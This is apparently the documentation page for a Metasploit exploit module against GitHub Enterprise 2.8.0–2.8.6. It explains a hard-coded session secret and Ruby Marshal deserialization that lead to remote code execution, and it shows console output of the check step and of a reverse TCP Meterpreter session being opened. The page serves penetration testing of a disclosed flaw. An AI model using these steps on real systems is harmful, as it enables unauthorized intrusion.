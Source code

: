 This module exploits two security issues found in Github Enterprise 2. The first problem is
that the session management uses a hard-coded secret value, which can be abused to sign a
serialized malicious object. The second problem is that the serialized string is passed to
a ```Marshal.load``` API call, which deserializes the malicious object, and executes it. A
malicious attacker can take advantage of these problems to achieve remote code execution.

According to exablue.de, this RCE was reported to GitHub, and the researcher was rewarded
$18,000 total.

## Vulnerable Application

The following versions are affected:

* 2.8.0 - 2.8.6.

For testing purposes, you can download a Github Enterprise image from the following location:

[https://enterprise.github.com/releases/](https://enterprise.github.com/releases/)

This module was specifically tested against version 2.8.0, which can be downloaded here:

Download links are provided for reference only and are not maintained by the project. Utilize at your own risk!
[https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova](https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova)

Before you install the image, you must have a valid key. Start from here:

[https://enterprise.github.com/sn-trial](https://enterprise.github.com/sn-trial)

After signing up for a trial, you should receive an e-mail. The email will instruct you to access
your portal account. In there, you can download your github-enterprise.ghl file, which is a key
to complete installing your Github Enterprise system.

## Using github_enterprise_secret

The module consists of two features: the ```check``` command and the ```exploit``` command.

The ```check``` command determines if the host is vulnerable or not by extracting the hash of the
cookie, and then attempts to create the same hash using the default secret key. If the two match,
it means the module can tamper the cookie, and that makes the server vulnerable to deserialization.

```
msf exploit(github_enterprise_secret) > check

[*] Found cookie value: _gh_manage=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZl%0AZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIG%0AOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3Zv%0AQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY%3D%0A--ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed;, checking to see if it can be tampered...
[*] Data: BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZlZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIGOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3ZvQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY=
[*] Extracted HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] Expected HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] The HMACs match, which means you can sign and tamper the cookie.
[+] 192.168.146.201:8443 The target is vulnerable.
msf exploit(github_enterprise_secret) > 
```

If vulnerable, the ```exploit``` command will attempt to gain access of the system:

```
msf exploit(github_enterprise_secret) > exploit

[*] Started reverse TCP handler on 192.168.146.1:4444 
[*] Serialized Ruby stager
[*] Sending serialized Ruby stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.146.201
[*] Meterpreter session 2 opened (192.168.146.1:4444 -> 192.168.146.201:52454) at 2017-03-23 10:11:17 -0500
[+] Deleted /tmp/htBDuK.bin
[+] Deleted /tmp/kXgpK.bin
[*] Connection timed out

meterpreter >
```
